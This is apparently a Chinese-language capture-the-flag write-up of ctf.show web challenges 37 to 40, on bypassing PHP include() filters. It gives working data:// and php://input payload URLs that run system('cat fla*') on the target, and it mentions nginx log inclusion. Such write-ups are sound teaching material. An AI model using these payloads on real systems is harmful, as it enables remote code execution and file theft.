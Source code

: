 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061628623.png)

## web37

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061633306.png)

跟文件包含差不多

php://input 绕过

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061635556.png)

或者使用 data://

`http://a2325636-9ccd-455f-a45d-6c2b9db50274.challenge.ctf.show/?c=data://text/plain,<?php system('cat fla*');?>`

## web38

```php
if(!preg_match("/flag|php|file/i", $c)){
    include($c);
    echo $flag;
}
```

data:// 协议

`http://92612de8-a0e7-4daf-8428-bb1e165d0cdb.challenge.ctf.show/?c=data://text/plain,<?=system('cat fla*')?>`

或者是 nginx 日志包含

## web39

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061645045.png)

只能包含以 `.php` 结尾的文件

php://filter 不能用, 因为用不了通配符, php://input 也不能用, 因为会有 `.php` 干扰

但是 data:// 还是可以用的

data:// 后执行的 PHP 代码必须要有短标签, 否则就是单纯的字符串

payload

`/?c=data://text/plain,<?=system('cat fla*')?>`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061649435.png)

## web40

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208061731921.png)
